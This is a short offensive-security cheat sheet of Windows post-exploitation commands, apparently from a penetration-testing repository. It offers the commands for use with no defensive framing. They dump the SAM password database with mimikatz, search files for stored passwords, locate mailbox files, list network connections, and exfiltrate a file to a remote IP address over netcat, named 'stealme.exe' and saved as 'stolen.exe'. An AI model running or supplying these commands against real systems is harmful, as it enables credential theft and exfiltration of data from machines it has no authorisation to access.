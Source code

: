 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/effect.md">Top of Page</a> |
  <a href="/CheatSheets/effect.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Effect
* Dump Passwords
* Find Password Files
* Find Emailboxes
* Get Network Connections
* [Exfil via Netcat](#exfil-via-netcat)

## Dump Passwords
```bash
mimikatz.exe "lsadump::sam"
```

## Find Password Files
```bash
findstr /si password *.xml *.ini *.txt (Find passwords)
```

## Find Emailboxes
```bash
dir *.dbx /s 
```

## Get Network Connections
```bash
netstat -ano 
```

## Exfil via Netcat
```bash
nc -nvlp 5050 > stolen.exe
nc.exe -w3 10.11.12.13 5050 < stealme.exe
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/effect.md">Top of Page</a> |
  <a href="/CheatSheets/effect.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
